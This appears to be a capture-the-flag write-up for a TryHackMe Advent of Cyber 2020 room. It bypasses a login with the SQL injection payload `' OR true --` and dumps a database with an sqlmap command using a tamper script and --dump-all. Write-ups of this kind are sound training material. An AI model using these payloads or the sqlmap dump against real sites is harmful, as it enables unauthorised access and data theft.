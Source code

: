 # Day 5 - Someone stole Santa's gift list!

- Without using directory brute forcing, what's Santa's secret login panel?

	- You don't have to use a directory fuzzer because you will not find a list with this word.
	- `santapanel`
	
	You will see this page:
	![santapanel](https://github.com/edoardottt/tryhackme-ctf/blob/main/Advent-of-Cyber-2020/Day-05-Someone_stole_Santa's_gift_list!/santapanel.png)
	
- Visit Santa's secret login panel and bypass the login using SQLi

	  no answer needed
	
	- Just enter in the username field `' OR true --`

- How many entries are there in the gift database?

	- `(' OR true --`
	- `22`

- What did Paul ask for?

	- `github ownership`

- What is the flag?

	- You have to enable the Burp option with FoxyProxy.
	- Then, open BurpSuie and perform a single request with the text field.
	- You will see BurpSuite opened with a http request. Send to repeater and save the item as shown in the explaining part previous the ctf.
	- Then start sqlmap with `sqlmap -r request.txt --tamper=space2comment --dump-all --dbms sqlite` taking request.txt as the saved file with BurpSuite.
	- (If sqlmap will ask you something, you have to try the largest attack you can, so try to perform all the tries you can; choosing y or n when it asks you).
	- `thmfox{***_*_****_***_*********_**_***}`

- What is the admin password?

	- `E***SW*z*******B`

# see you ...
